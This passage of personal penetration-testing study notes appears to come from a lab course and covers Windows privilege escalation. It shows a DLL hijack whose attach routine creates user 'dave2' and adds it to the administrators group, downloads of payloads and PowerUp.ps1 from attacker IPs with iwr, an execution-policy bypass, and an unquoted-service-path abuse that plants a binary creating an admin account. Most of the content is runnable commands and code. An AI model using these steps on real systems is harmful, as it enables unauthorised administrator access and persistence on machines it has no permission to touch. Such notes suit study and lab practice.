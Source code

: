 				    switch ( ul_reason_for_call )
				    {
				        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
				        int i;
				  	    i = system ("net user dave2 password123! /add");
				  	    i = system ("net localgroup administrators dave2 /add");
				        break;
				        case DLL_THREAD_ATTACH: // A process is creating a new thread.
				        break;
				        case DLL_THREAD_DETACH: // A thread exits normally.
				        break;
				        case DLL_PROCESS_DETACH: // A process unloads the DLL.
				        break;
				    }
				    return TRUE;
				}```
		- Coss-compile
			- ```x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll```
				- --shared = DLL
		- Transfer DLL to tgt machine
				- change cwd to *Documents* for the DLL attack to executefrom the path
			- ```iwr -uri http://192.168.119.3/myDLL.dll -Outfile myDLL.dll```
		- Restart BetaService
			- ```Restart-Service BetaService```
		- ```net localgroup administrators```

### Unquoted Service Paths
	- when you have Write perms to a service's directories but cannot replace files within them
- CreateProcess function -> service started
	- IpApplicationName
		- used to specify name & path of .exe
	- Function reads paths from left to write adding a .exe for every space 
		- (```i.e C:\My.exe Program\My.exe Service\```)
- Example:
	- enumerate ruunning & stopped services:
		- ```Get-CimInstance -ClassName win32_service | Select Name,State,PathName```
	- find spaces in the paths and missing quotes specifically
		- ```wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """```
	- test start and stop
		- ```Start-Service GammaService```
		- ```Stop-Service GammaService```
	- check permission to all interpreted paths
		- ```icacls "C:\"
			icacls "C:\Program Files"
			icacls "C:\Program Files\Enterprise Apps"```
	- replace adduser.exe in Current.exe path
		- ```iwr -uri http://192.168.45.230/adduser.exe -Outfile Current.exe```
		- ```copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'```
		- ```Start-Service GammaService```
- Example with PowerUp [way quicker]:
	- Find unquoted services
		- ```iwr http://192.168.45.230/PowerUp.ps1 -Outfile PowerUp.ps1
			powershell -ep bypass
			. .\PowerUp.ps1
			Get-UnquotedService```
	- Use AbuseFunction and write  to binary
		- ```Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"```
			- default -> create user john w/ password: Password123!
	- ```Restart-Service GammaService```
